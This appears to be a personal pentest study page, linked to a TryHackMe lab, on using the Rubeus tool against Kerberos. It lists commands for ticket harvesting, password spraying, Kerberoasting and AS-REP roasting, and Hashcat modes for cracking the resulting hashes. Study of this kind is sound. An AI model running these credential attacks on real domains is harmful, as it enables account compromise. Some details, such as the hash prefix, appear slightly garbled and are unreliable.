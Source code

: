 # Using Rubeus

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux’s `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the
# current machine. Probably works best when run on a
# domain controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users
# and generate a ticket giving ticket for successful
# authentications. (Can trigger account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known
# kerberoastable accounts using Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` → `$kerb5asrep$23$`) and then use mode 18200.

## References

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 6, 2021
